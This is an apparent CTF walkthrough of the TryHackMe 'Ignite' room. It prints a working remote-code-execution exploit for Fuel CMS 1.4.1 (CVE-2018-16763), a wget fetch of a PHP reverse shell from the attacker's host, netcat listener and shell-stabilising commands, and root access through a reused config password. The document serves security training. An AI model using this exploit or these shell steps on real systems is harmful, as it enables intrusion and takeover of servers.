


# [Ignite TryHackMe Writeup/Walkthrough][1]
A new start-up has a few issues with their web server.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

Command -> `nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.112.107
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

Let's check the website as we have `port 80` open.

It seems like a default page of **Fuel CMS**. I found two interesting things here.

1. Location of the database which can be handy later, provided if I got the access.


2. Login Credentials for admin and a web panel.


> I found nothing interesting in the web panel.

Let's search for exploit already available for **Fuel CMS**. You can look for this online on CVE Details or alternatively you can look into the database available in Kali Linux. CMD -> `searchsploit fuel cms`

```
----------------------------------------------------------- --------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------------
- fuel CMS 1.4.1 - Remote Code Execution (1)               | linux/webapps/47138.py
- Fuel CMS 1.4.1 - Remote Code Execution (2)               | php/webapps/49487.rb
- Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)     | php/webapps/48741.txt
- Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authen | php/webapps/48778.txt
----------------------------------------------------------- --------------------------
Shellcodes: No Results
```

*Remote Code Exceution via Python* looks promising. This files are located under `/usr/share/exploitdb/exploits/`. Get a copy of the file and `gedit` or `nano` to edit the file.


The changes you need to make here is the
1. `URL` will be IP of the machine.
2. comment the line where it says `proxy` using **#** and remove `, proxy` from the line where it is `r = ..`. The below code is already edited.

```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.112.107"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	# proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

Run the file using python -> `python 47138.py`


> Got Shell as `www-data`.

You can get the `user_flag` easily. But this shell is unstable. Let's get a `netcat` shell using `php backdoor.` PHP Reverse Backdoor is available in `/usr/share/webshells/php-reverse-shell.php`.

Get the file as same way we did the exploit. `gedit` or `nano` the file and change the `$ip` to your **TryHackMe's IP** and `$port` to `4444` (you can keep the port same).

Now we need to transfer the file to the server. For that start a local server, using `python3 -m http.server`.

To get download the shell, type -> `wget http://<YOUR_IP>:8000/php-reverse-shell.php`. The file will be downloaded in the web server.

Start a listener using `nc -lvnp 4444` and go the website -> `http://<IP>/php-reverse-shell.php` and you will have the access.


Further process to stabilize the shell is

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Press `Ctrl + Z`.
3. `stty raw -echo;fg`

You will now have a stable shell with additional functionality.  

Now we can get the user flag.


### Privilege Escalation

I tried many methods, looked for `sudo -l`, found noting much. Then I check the file location with the database credentials and found the password for `root` user. File location is the ***Step 2*** on the website. The one with configuration file.



To be root user, type, `su root` and the *password* you got form above file.


You have the root access. You know what to do next :stuck_out_tongue_winking_eye:


[1]: https://tryhackme.com/room/ignite
[2]: https://www.hackhunt.in/search/label/Nmap
